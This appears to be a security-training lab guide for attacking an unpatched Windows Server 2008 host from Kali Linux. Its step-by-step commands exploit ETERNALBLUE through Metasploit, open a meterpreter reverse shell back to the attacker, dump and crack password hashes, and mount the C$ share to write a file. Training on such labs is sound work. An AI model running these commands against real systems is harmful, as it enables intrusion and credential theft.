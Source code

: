 # RSSC2018 Endpoint Attack Lab

## Prerequisites

In order to execute this lab, there are a few things you will need to get started.
1. Installation of Windows Server 2008 as an attack target, either running on a VM or a separate machine, with the following requirements:
   * Fresh, unpatched install
   * Firewall disabled
   * SMBv1 enabled (enabled by default, so if you have not specifically disabled it then you don't need to change anything here)
   * The Administrator password should be set to something simple to make the demonstration of password cracking easier. In our example, we'll use `Drowssap1` as our password.
2. Kali Linux installed to attack the target host from
3. Both machines should be connected to the same network
4. For this lab we're going to use the IP 192.168.100.10 for the Windows attack host and 192.168.100.11 for the Kali console. Replace these IPs in the instructions with your own if using different ones.

## Attack Execution

Here we will walk through the process of attacking and gaining access to the unpatched Windows Server 2008 instance.

1. On your Kali installation, open 2 terminals. For now, we will work in Terminal 1.
2. We need to discover the host and determine what services are available on the machine so we can begin looking for weaknesses. nmap is a tool that helps us do this.

```bash
nmap -T4 -sSVC 192.168.100.10 -p 80,443,445
```

   These parameters do the following:  

   * -T4 sets the timing template to aggressive to make the scan happen more quickly
   * -sSVC specifies that nmap should use the SYN scan technique, should probe open ports to determine information about the service that opened the port, and sets the scripts nmap should use to default
   * -p specifies which ports to scan once host discovery is complete. In this scenario, we'll be scanning the commonly used web ports 80 and 443, as well as the SMB share port 445.

   More information on the commands used, or other information about nmap can be found by running `man nmap`.  

   This should return information about the SMB service on 445, so now we've determined that SMB may be a good attack point.  

3. We can see from the output that nmap was able to determine from the SMB information that the operating system is Windows Server 2008. We know that this OS, if unpatched, can be vulnerable to the ETERNALBLUE exploit. We'll now run an nmap script to determine if this server is unpatched and vulnerable.

```bash
nmap -p 445 192.168.100.10 --script smb-vuln-ms17-010
```

   * This tells nmap to scan your host on port 445 using the script that determines if it is vulnerable to ETERNALBLUE. It should come back indicating that it is indeed vulnerable.

4. Now that we know the host is vulnerable to ETERNALBLUE, we can run an exploit on it. On Terminal 1, start the metasploit console, which we will use to execute the attack.

```bash
msfconsole
```

5. Once you are at the msfconsole command prompt, select the metasploit module for eternal blue (msfconsole supports tab-complete).

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

6. Review your options for this module.

```bash
show options
```

7. Notice that the RHOST option is required. This is the IP address of the host to be attacked.

```bash
set RHOST 192.168.100.10
```

8. Now we need to set the payload. You can use many kinds of payloads to gain shell access, but in this scenario we'll deploy a meterpreter reverse tcp shell that connects back to our local box. Meterpreter shell allows us to execute a variety of useful functions once we gain access to the target box.

```bash
set payload payload/windows/meterpreter/reverse_tcp
```

9. Now show options again, and notice that the LHOST option is now available and required. This needs to be set to the IP of your local box so the shell knows where to connect back to once it's running on the target host.

```bash
set LHOST 192.168.100.11
```

10. Run the exploit. If it goes well, you should see a WIN! message and have a new meterpreter shell prompt.

```bash
run
```

11. You should now have a meterpreter shell prompt on the target host. You can run `help` at any time to see the commands availalbe to you here. First we'll want to launch a cmd prompt and run some commands to verify you have system access to the correct host.

```bash
shell
whoami
hostname
exit
```

12. Back at the meterpreter shell, now we want to see if we can get a dump of the passwords and then try to crack them. To make this easier, we want to start a logging session so any dumped hashes are already saved for us in a text file. To do this, we need to run the `background` command to bring us back to the msfconsole prompt and start spooling. Run the following commands.

```bash
background
spool /tmp/console.log
```

13. This will start logging all of your commands and output to /tmp/console.log. Now we need to connect back to our meterpreter shell session. To view the list of sessions available, use the `sessions -l` command, followed by `sessions -i <id>` where `<id>` is the ID of the session listed from the output of the `sessions -l` command.

```bash
sessions -l
sessions -i 1
```

14. Back on the meterpreter shell, run `hashdump`. You should see a list of usernames and hashed passwords, which are automatically logged as output to /tmp/console.log. 

15. Background the session again, and turn off spooling so we don't keep outputting unnecessary logs to /tmp/console.log

```bash
background
spool off
```

## Password Cracking

1. Let's switch over to Terminal 2 at this time. Now that we have a copy of the hashed passwords, we want to see if we can crack them. You can view the contents of the log output by running `cat /tmp/console.log`. Notice that there's more information than just the hashed passwords in here from the other commands we've run from our session. To clean this up and get a file that just contains the password hashes, we can `grep` that information out to a new file.

```bash
grep ":::" /tmp/console.log | tee hashedpasswords.txt
```

   * The grep command searches for the string ":::" in the console.log file (which the lines with hashed passwords will have), prints it out to the console and pipes it to the `tee` command, which saves console output to the file `hashedpasswords.txt`.
   
2. Now we can run our password cracking tool to crack the password. There are many cracking tools available, but for this exercise we'll use `john`.

```bash
john --format=nt hashedpasswords.txt
```

   * For more information on the options that can be used with `john` for more complex cracking processes, you can run `john -h` to display the help text.

3. This should now show you that the Administrator password was successfully cracked to be `Drowssap1`. We can confirm that this is correct through a variety of methods, but for our purposes, we'll mount the protected c$ share on the attack box and write a file to it.

```bash
mkdir -p /mnt/atk_share
smbclient -L hostname -I 192.168.100.10 -U Administrator
mount -t cifs //192.168.100.10/C$ /mnt/atk_share -o username=Administrator,password=Drowssap1
```

   * `mkdir` command creates the full directory specified
   * `smbclient` command lists the shares available on the target host. This will prompt you for the Administrator password, which you should supply the cracked password
   * `mount` command mounts the Windows share to /mnt/atk_share with the username and password specified, and specifies the type as a CIFS share

4. Now we can change directory to the remote share and see if we can write a file on the C:\ directory of the remote host.

```bash
cd /mnt/atk_share
echo "you done been" > pwnd.txt
ls
```

   * This changes directory to the atk_share directory and writes a file to the share called `pwnd.txt` with the contents `you done been`.
   * To confirm, you can run `cat pwnd.txt` and you should see your contents.
   * You can also log into your Windows host directly and confirm there is a file at C:\pwnd.txt with those contents.
   
## Cleanup

1. Now that we're finished with our exercise, we need to close the existing session on the target. Back on Terminal 1, instruct metasploit to terminate the existing session.

```bash
sessions -K
```

2. You can now exit metasploit by running `exit`.

# Conclusion

We hope this has been useful in seeing the process of a basic attack on an unpatched Windows host, which should demonstrate how important patching and hardening procedures are to protecting against such easy attack vectors that can be very damaging to your environment.
